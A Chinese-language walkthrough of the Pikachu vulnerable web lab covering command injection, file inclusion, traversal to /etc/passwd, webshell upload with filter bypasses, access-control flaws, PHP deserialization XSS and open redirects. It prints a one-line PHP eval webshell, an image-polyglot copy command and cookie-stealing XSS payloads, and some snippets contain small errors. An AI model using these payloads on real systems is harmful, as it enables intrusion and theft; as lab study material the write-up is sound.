



pikachu 2 - RCE
===

### RCE (远程代码执行)

RCE 是一种比 sqli 更危险的代码注入, 一般来说 RCE 的注入点直接在 bash 中。利用系统终端的连接符来实现额外的指令执行。

#### 连接符

参考地址:[简书](https://www.jianshu.com/p/89c06caaf133)

-   Windows:

    -   `|`：只执行后面的语句。
    -   `||`：如果前面的语句执行失败，则执行后面的语句。
    -   `&`：两条语句都执行，如果前面的语句为假则执行后面的语句，如果前面的语句为真则不执行后面的语句。
    -   `&&`：如果前面的语句为假，则直接出错，也不再执行后面的语句；前面的语句为真则两条命令都执行，前面的语句只能为真。

-   Linux系统：
    -   `;`：执行完前面的语句再执行后面的语句，当有一条命令执行失败时，不会影响其它语句的执行。
    -   `|`（管道符）：只执行后面的语句。
    -   `||`（逻辑或）：只有前面的语句执行出错时，执行后面的语句。
    -   `&`（后台任务符）：两条语句都执行，如果前面的语句为假则执行后面的语句，如果前面的语句为真则不执行后面的语句。
    -   `&&`（逻辑与）：如果前面的语句为假则直接出错，也不再执行后面的语句；前面的语句为真则两条命令都执行，前面的语句只能为真。

#### exec "ping"

没什么可说的, 试一下简单的指令:


直接有回显, 说明 bash 交互的结果直接返回到了这个页面上。

#### exec "eval"

和 `ping` 的环境 (shell) 不同, `eval` 在 php 解释器中执行:

输入 `phpinfo();`:


直接爆出 php 信息了, 说明这里有 RCE 漏洞。

### 文件包含漏洞

文件包含的代码文件被写成了一个变量，且这个变量可以由前端用户传进来，这种情况下，如果没有做足够的安全考虑，则可能会引发文件包含漏洞。 攻击着会指定一个“意想不到”的文件让包含函数去执行，从而造成恶意操作。 

#### 本地文件包含漏洞

先选择老朋友 `kobe` 这个文件:



注意看 URL, 文件名是以 GET 的形式传入的, 这里直接能看见。

直接尝试 `../../../../../../etc/passwd` 这个参数, 这个参数也是老朋友了, 在打靶机的时候经常用:


#### 远程文件包含漏洞

继续尝试 `../../../../../../etc/passwd`:


同样可以, 那么这一关和前面的区别在哪里呢? 区别在于, 这里可以访问"不在服务器上的资源", 例如这里直接挂个 http 协议访问其他网站:


从回显来看已经成功了;

这个操作的意义在于, 如果这里能执行远程文件, 那么完全可以在本地写一个木马文件, 然后开一个临时服务器, **让服务器直接执行这个木马文件**。

#### 不安全下载漏洞 (Unsafe Filedownload)

首先来到下载页面, 选择一个文件:


后台把包抓住, 发送到 repeater, 把参数改为 `../../../../../../etc/passwd` :


### 不安全上传漏洞 (Unsafe Fileupload)

不安全上传漏洞服务器对上传的文件过滤不足导致一些恶意文件被上传到服务器。最经典的做法就是上传一个木马文件到服务器, 形成 webshell;

#### client check

写一个一句话木马 shell.php:

```php
<?php  @eval($_POST['shell']); ?>
```

查看网页的源代码, 可以发现校验是在浏览器上的, 前文已经强调过这么做是完全没用的:


直接在浏览器的控制台中按 F1, 然后禁用 javascript 然后重新上传:





此时文件已经在 `/vul/unsafeupload/uploads/shell.php` 这个路径下了。

用蚁剑连接:


这里的连接密码就是刚刚传的参数 "shell", 测试能连接, 说明成功了。

通过这个 webshell 可以直接启动 shell, 身份为 `www-data`, 也就是 Linux 系统中进行网站管理和运行的用户。拿到这个用户的 shell 通常就可以着手做提权工作了。

#### MIME type 

上传之前的一句话木马并抓包:


可以看到这里指定了文件类型 (Content-Type), 直接把这里改成 `image/jpg` 就可以骗过服务器了。

之后放行, 显示成功:


之后还是用蚁剑连接即可。

#### getimagesize()

这一关的校验放在了对图片的 hex 编码的首部, 也就是文件头, 对应的绕过也要做出改变:

-   首先可以直接在图片末尾加上一句话木马:

```php
<?php  @eval($_POST['shell']); ?>
```

-   也可以使用 cmd 命令来手动整合:

```cmd
copy copy /b cover.jpg + shell.php covered_shell.jpg
```

再结合之前的文件上传漏洞, 将图片放到 `filename=../../unsafeupload/uploads/covered_shell.jpg` 下。然后用蚁剑即可连接。

### Over Permission 

越权操作, 这里指的是 CMS 层面的登录用户而不是 Linux 账户。最典型的就是普通用户可以通过某些不安全操作进行

#### 水平越权

点一下提示, 有 `kobe`, `lili`, `lily` 这三个账户; 随便登录一个, 比如 kobe:


能看到查询的参数是在 URL 里的, 为 GET 方法, 试试能不能查其他人的:


能查到, 相当于可以直接读取到其他账户的密码, 这是显然的越权操作。

#### 垂直越权

点一下提示, 提示 admin 为超级管理员, 另一个账户为 pikachu, 先尝试登录这两个账户:


可以看到超级管理员的后台是可以添加账户的, 点一下:


记住这个地址: `op2_admin_edit.php`

现在切换回 pikachu 这个账户, 然后在 url 中输入刚刚的地址:


访问成功, 以 pikachu 的账户身份进入了 admin 才能访问的添加用户界面, 这说明服务器只是简单的隐藏了其他用户的 "添加用户" 的界面入口, 并没有进行严格的访问控制。

#### 目录遍历

这个和文件包含漏洞是很像的, 通常是用相对路径, 直接在 URL 中输入即可直观看到:

```url
http://localhost:8765/vul/dir/dir_list.php?title=../../../../../../etc/passwd
```


### 敏感信息泄露

这个漏洞不会直接引起损失, 但是会为攻击者提供更大的攻击面, 一般来说是由于不规范的开发流程, 或者没有及时清除调试时留下的信息导致的。

例如, 从开发和运维人员的角度出发, 在前台代码中写一些方便查看的注释可以减少一些机械查询操作, 但是这些注释一旦包含了账号, 权限这类敏感信息, 就会给攻击者大得多的攻击面, 例如帮助攻击者攻陷管理员账号。

对于这个界面, 直接查看源代码, 可以直接看到测试账号的密码:


再比如, 登陆之后能看到显示的 php 文件, 而这个界面可以直接免登录地在 url 中输入直接访问; 此外, 这个界面的表单也有问题, 该表单提交已存在的账号和未存在的账号时的返回明显不同, 这可能为暴力破解留下隐患。

### PHP 反序列化

**序列化**是指通过某种算法将各种有不同数据结构的对象通过一定的算法转换可以传输的字符串。当需要使用这些数据时, 会使用对应的**反序列化**函数来将其解码回之前的原始数据形式。

PHP 反序列化的漏洞在于, 这个序列化的操作实际上内置了几个**公共函数** (魔法函数), 每次序列化的时候都会**自动调用**这些公共函数; 而问题在于, 这些公共函数是可写的, 对于攻击者而言完全可以**将恶意代码植入其中**, 这样一来序列化函数就变成了一个攻击面。

#### 一个用例

- 序列化:

```php
    class S{
        public $test="pikachu";
    }
    $s=new S(); //创建一个对象
    serialize($s); //把这个对象进行序列化
    
    //序列化后得到的结果是这个样子的:
    //O:1:"S":1:{s:4:"test";s:7:"pikachu";}
    /*  
        O:代表object
        1:代表对象名字长度为一个字符
        S:对象的名称
        1:代表对象里面有一个变量
        s:数据类型
        4:变量名称的长度
        test:变量名称
        s:数据类型
        7:变量值的长度
        pikachu:变量值
    */
```

-   反序列化

```php
 $u=unserialize("O:1:"S":1:{s:4:"test";s:7:"pikachu";}");
```

最终会得到原始对象 `S`;

-   反序列化漏洞

序列化和反序列化本身没有问题,但是如果反序列化的内容是用户可以控制的,且后台不正当的使用了 php 中的魔法函数,就会导致安全问题:

>    -   `__construct()`: 当一个对象创建时被调用;
>    -   `__destruct()`: 当一个对象销毁时被调用;
>    -   `__toString()`: 当一个对象被当作一个字符串使用;
>    -   `__sleep()`: 在对象在被序列化之前运行;
>    -   `__wakeup`: 将在序列化之后立即被调用;

```php
class S{
    var $test = "pikachu";
    function __destruct(){
        echo $this->test;
    }
}
$s = $_GET['test'];
@$unser = unserialize($a);

//payload:O:1:"S":1:{s:4:"test";s:29:"<script>alert('xss')</script>";}
```

#### api 注入

点一下提示, 输入这个提示的字符串:

用这个工具来在线的执行结果: [PHP 在线工具](https://www.jyshare.com/compile/1/)

```php
<?php
class S{
	var $test="<script>alert(document.cookie)</script>";
}
 
$a=new S();
echo serialize($a)
?>
```

结果: `O:1:"S":1:{s:4:"test";s:39:"<script>alert(document.cookie)</script>";}`

输入这个结果试试:


### 不安全的 URL 跳转

不安全的 url 跳转问题可能发生在一切执行了 url 地址跳转的地方:

点第四个链接, 发现 url 上出现了一个 GET 参数 `url`:

改一下参数:

```url
http://localhost:8765/vul/urlredirect/urlredirect.php?url=http://www.baidu.com
```

跳转:


